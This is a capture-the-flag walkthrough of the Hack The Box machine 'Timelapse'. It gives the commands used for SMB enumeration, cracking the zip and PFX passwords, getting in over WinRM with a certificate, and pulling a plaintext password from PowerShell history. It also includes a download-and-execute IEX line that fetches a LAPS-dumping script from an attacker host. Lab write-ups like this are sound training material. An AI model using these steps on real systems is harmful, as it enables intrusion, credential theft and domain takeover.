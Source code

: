 # HTB - Timelapse

**IP Address:** `10.10.11.152`  
**OS:** Windows Server 2019  
**Difficulty:** Medium  
**Tags:** #SMB, #PFX #Certificate, #Evil-WinRM with SSL, #LAPS, #DomainAdmin, #PasswordExtraction

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.152
```

✅ Host is alive

### 1.2 Nmap Scan

Found:

- 445/tcp → SMB
- 5986/tcp → WinRM over SSL (no 5985)

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.152 -oG allPorts
nmap -sC -sV -p445,5986 10.10.11.152 -oN targeted
```

---

## 2. SMB Enumeration

```bash
crackmapexec smb 10.10.11.152
smbclient -L 10.10.11.152 -N
smbmap -H 10.10.11.152 -u none
```

Found readable share: `Shares`

Downloaded:

```bash
smbclient //10.10.11.152/Shares -N
cd Dev
get winrm_backup.zip
```

---

## 3. ZIP Cracking & Certificate Extraction

### 3.1 Crack zip password:

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

Unzipped to obtain `.pfx` file.

### 3.2 Crack .pfx password:

```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```

Extracted private key:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificates.pem
```

---

## 4. WinRM Access over SSL

```bash
evil-winrm -i 10.10.11.152 -c certificates.pem -k priv-key.pem -S
```

✅ Logged in as user `legacyy`  
🏁 **User flag obtained**

---

## 5. Local Enumeration

Viewed command history:

```bash
type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Found hardcoded credentials:

- User: `svc_deploy`
- Password: `E3R$Q62^12p7PLlC%KWaxuaV`

---

## 6. WinRM with svc_deploy

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

✅ Access confirmed

Discovered `svc_deploy` is part of `LAPS_Readers`.

---

## 7. Extract LAPS Passwords

Downloaded and executed:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Get-LAPSPasswords.ps1')
Get-LAPSPasswords
```

Extracted password for several users.

---

## 8. Privilege Escalation to Domain Admin

Password worked for user `TRX`, who belongs to `Domain Admins`.

Logged in and accessed:

```powershell
cd C:\Users\TRX\Desktop
type root.txt
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
